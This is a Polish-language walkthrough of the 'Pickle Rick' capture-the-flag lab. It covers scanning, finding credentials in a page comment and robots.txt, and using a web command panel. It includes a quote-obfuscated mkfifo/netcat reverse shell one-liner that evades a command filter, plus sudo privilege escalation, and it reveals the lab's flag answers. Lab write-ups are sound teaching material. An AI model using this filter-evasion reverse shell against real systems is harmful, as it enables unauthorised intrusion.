

# Pickle Rick v2
IP=10.10.168.136

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.168.136
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-03 12:31 EDT
Nmap scan report for 10.10.168.136
Host is up (0.054s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 13:13:4c:4e:f5:51:ac:71:e0:1a:98:ac:07:94:6b:b0 (RSA)
|   256 73:60:e3:9c:24:43:d1:15:d6:32:8d:7a:24:3e:6c:98 (ECDSA)
|_  256 4f:0c:c0:e4:44:d6:4e:92:21:d9:47:c9:df:0b:6b:14 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.18 seconds
```

Zostały wykryte dwa porty.

## Skanowanie

### Port 80
Rozpoczynamy od sprawdzenia portu 80:


Widzimy, że celem jest znalezienie trzech tajnych składników. Patrzymy na źródło strony:



W komentarzu znajdujemy nazwę użytkownika.

```
R1ckRul3s
```

Przechodzimy do enumeracji katalogów za pomocą narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.26.100/FUZZ -c -e ".php"
```


Sprawdzamy folder "robots.txt":


```
Wubbalubbadubdub
```

Znaleziony ciąg znaków może być hasłem. Sprawdzamy następnie podstronę login.php:


Próbujemy się zalogować do systemu za pomocą znalezionych danych do logowania:

```
R1ckRul3s:Wubbalubbadubdub
```

Po zalogowaniu widzimy panel poleceń:


## Eksploitacja

Za pomocą panelu jesteśmy w stanie komunikować się bezpośrednio z serwerem, jednak większość komend jest zablokowana:


Szukamy obejścia tego zabezpieczenia na stronie [hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions):


Spróbujemy uzyskać dostęp do systemu poprzez reverse shell'a za pomocą zmodyfikowanej komendy. Najpierw nasłuchujemy połączeń za pomocą narzędzia netcat, a następnie wykonujemy komendę:

```
nc -lvnp [Port]
```

```
r""m /tmp/f;m""kfifo /tmp/f;c""at /tmp/f|sh -i 2>&1|n""c [IP] [PORT] >/tmp/f
```

Po jej wykonaniu uzyskujemy dostęp do systemu:


Odczytujemy pierwszy tajny składnik:


```
mr. meeseek hair
```

W pliku clue.txt dostajemy podpowiedź, aby rozejrzeć się po systemie w celu znalezienia innych tajnych składników:


W katalogu domowym rick'a znajdujemy drugi tajny składnik:


```
1 jerry tear
```

## Zwiększenie poziomu uprawnień

Użytkownik www-data może wykonać wszystkie komendy jako root:


Wykorzystujemy to do zdobycia uprawnień root'a:


W katalogu root'a znajdujemy trzeci tajny składnik:


```
fleeb juice
```

Do zobaczenia na kolejnych CTF-ach!

